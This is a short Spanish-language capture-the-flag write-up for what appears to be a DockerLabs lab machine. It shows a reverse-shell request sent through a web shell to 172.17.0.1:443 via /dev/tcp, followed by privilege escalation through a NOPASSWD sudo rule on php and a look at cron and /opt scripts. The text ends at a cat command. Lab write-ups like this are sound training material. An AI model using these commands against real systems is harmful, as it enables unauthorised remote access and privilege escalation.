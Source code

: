 ```bash
# Reverse shell o acceso inicial
http://cinema.dl/andrewgarfield/cmd.php?cmd=bash -c 'exec bash -i %26>/dev/tcp/172.17.0.1/443 <%261'
```

---
## Escalada de Privilegios
###### Usuario `[ www-data ]`:
Listando los permisos para este usuario, Tenemos lo siguiente:
```bash
sudo -l

User www-data may run the following commands on dockerlabs:
    (boss) NOPASSWD: /bin/php # Tenemos una via potencila de migrar a otro usuario
```

Explotamos el privilegio:
```bash
# Comando para escalar al usuario: ( boot )
sudo -u boss /bin/php -r 'system("/bin/bash");'
```

###### Usuario `[ boss ]`:
Logramos ganar acceso como este usuario pero en el sistema algo nos cierta la sesion:
Listando los procesos del sistema vemos que se esta ejecutando este:
```bash
/var/spool/cron/crontabs/root.sh;
```

No podemos acceder a el pero listando los permisos:
```bash
ls -l /var/spool/cron/        

dr-xrwx--T 2 boss crontab 4096 Jan 16 13:02 crontabs
```

Como usuario propietario solo puede verlo **boss**, Ahora sabiendo que como usuario **www-data** tenemos el banario de **php** el cual nos aprovechamos para ver si podemos leer el contendio
```bash
sudo -u boss /bin/php -r 'readfile(getenv("/var/spool/cron/crontabs/root.sh"));' # No permite leer el contenido
```

Revisando mas directorios tenemos el siguiente:
```bash
ls -la /opt

update.sh
```

Ahora revisando su contenido:
```bash
cat /opt/update.sh
```
